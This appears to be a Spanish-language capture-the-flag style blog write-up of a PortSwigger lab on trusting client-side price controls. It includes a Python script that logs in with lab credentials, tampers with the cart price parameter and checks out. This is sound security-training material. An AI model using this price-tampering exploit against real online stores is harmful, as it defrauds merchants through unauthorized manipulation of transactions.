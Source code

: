 ```yaml
---
title: "01 Excessive trust in client-side controls"
collection: publications
category: portswigger
permalink: publications/Business logic/01_Excessive trust in client-side controls
excerpt: 'Este laboratorio no valida adecuadamente la entrada del usuario. Puedes aprovechar un fallo lógico en su flujo de trabajo de compras para comprar artículos por un precio no previsto.'
date: 2024-12-09
#venue: 'Journal 1'
#slidesurl: 'http://academicpages.github.io/files/slides1.pdf'
#paperurl: 'http://academicpages.github.io/files/paper1.pdf'
citation: 'Excessive trust in client-side controls'
---
```


![logo]({{site.url}}/images/Business logic/Business-logic-lab-01/logo.png)

## Descripción del laboratorio

![Descripción]({{site.url}}/images/Business logic/Business-logic-lab-01/descripcion.png)

## Objetivo del laboratorio

Para resolver este laboratorio, compra una "Lightweight l33t leather jacket" a un precio mas economico.

## Analisis

Nos logueamos en la pagina web y realizamos el flujo como si fueramos a comprar un articulo. Vemos que tenemos un saldo de $100 y la chaqueta nos cuesta 1337 no nos alcanza para comprarla.

![Conf1]({{site.url}}/images/Business logic/Business-logic-lab-01/conf1.png)

Vemos que podemos modificar el precio asi que lo cambiamos a un valor menor

![Conf2]({{site.url}}/images/Business logic/Business-logic-lab-01/conf2.png)

Recargamos la pagina y vemos que cambio el valor y realizamos la compra

![Conf3]({{site.url}}/images/Business logic/Business-logic-lab-01/conf3.png)

## Aprobado

![Aprobado]({{site.url}}/images/Business logic/Business-logic-lab-01/aprobado.png)

# Codigo Python

```python
import requests
import sys
import urllib3
from bs4 import BeautifulSoup
import re 

urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

proxies = {'http': 'http://127.0.0.1:8080', 'https': 'http://127.0.0.1:8080'}

def get_csrf_token(s, url):
    r = s.get(url, verify=False, proxies=proxies)
    soup = BeautifulSoup(r.text, 'html.parser')
    csrf = soup.find("input", {'name': 'csrf'})['value']
    return csrf


def buy_item(s, url):

    # Retrieve the CSRF token
    login_url = url + "/login"
    csrf_token = get_csrf_token(s, login_url)

    # Login as the wiener user
    print("(+) Logging in as the wiener user...")
    data_login = {"csrf": csrf_token, "username": "wiener", "password": "peter"}
    r = s.post(login_url, data=data_login, verify=False, proxies=proxies)
    res = r.text
    if "Log out" in res:
        print("(+) Successfully logged in as the wiener user.")

        # Add item to cart
        cart_url = url + "/cart"
        data_cart = {"productId": "1", "redir": "PRODUCT", "quantity": "1", "price": "1"}
        r = s.post(cart_url, data=data_cart, verify=False, proxies=proxies)

        # Checkout
        checkout_url = url + "/cart/checkout"
        checkout_csrf_token = get_csrf_token(s, cart_url)
        data_checkout = {"csrf": checkout_csrf_token}
        r = s.post(checkout_url, data=data_checkout, verify=False, proxies=proxies)

        # Check if we solved the lab
        if "Congratulations" in r.text:
            print("(+) Successfully exploited the business logic vulnerability.")
        else:
            print("(-) Could not exploit the business logic vulnerability.")
            sys.exit(-1)
    else:
        print("(-) Could not login as user.")


def main():
    if len(sys.argv) != 2:
        print("(+) Usage: %s <url>" % sys.argv[0])
        print("(+) Example: %s www.example.com" % sys.argv[0])
        sys.exit(-1)

    s = requests.Session()
    url = sys.argv[1]
    buy_item(s, url)

if __name__ == "__main__":
    main()
```